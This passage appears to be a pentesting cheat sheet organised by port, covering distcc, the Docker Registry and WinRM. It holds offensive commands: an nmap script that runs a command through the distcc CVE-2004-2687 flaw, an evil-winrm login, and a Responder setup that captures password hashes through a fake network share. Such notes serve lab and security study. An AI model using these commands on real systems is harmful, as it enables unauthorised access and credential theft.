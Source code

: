 Check if it's vulnerable to **CVE-2004-2687** to execute arbitrary code:

```bash
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```

### 5000 - Docker Registry

#### Generalities

- Purpose:

  Docker images are organized within **Docker repositories** in the registry, each repository storing various versions of a specific image. The functionality provided allows for images to be downloaded  locally or uploaded to the registry, assuming the user has the necessary permissions.

### 5985-6 - WINRM

#### Generalities

- **Type:** Authentication 
- Purpose:
  - remote management protocol based on the command line.
  - WinRM must be explicitly enabled and configured starting with Windows 10
  - Windows Remote Shell (`WinRS`), which lets us execute arbitrary commands on the remote system. The program is included on Windows 7 by default. 
- Structure:
  - WinRM relies on `TCP` ports `5985` and `5986` for communication, with the last port `5986 using HTTPS`, as ports 80 and 443 were previously used for this task. 
  - In general, it only works for active directories

#### Interaction

 [evil-winrm](https://github.com/Hackplayers/evil-winrm) to log in

```bash
evil-wirm -i [IP] -u [USER] -p [PASSWD]
```

To upload /download files use `upload` and `download` in the winrm session. The file must be in the folder you used to connect to winrm.

#### Exploit

The password is stored as an hash,  one-way function that takes any amount of data and returns a fixed size value.

Use responder to attack it: 

```
sudo responder -I tun0 -w -d 
```

it creates a fake shared folder in your network, that if it interacts with the attacked ip (e.g. through the parameter of a web page), will steal the password as an Hash.

The responder IP has to be loaded as a shared folder, i.e. `//<IP>/somefile`, if we want to do RFI.
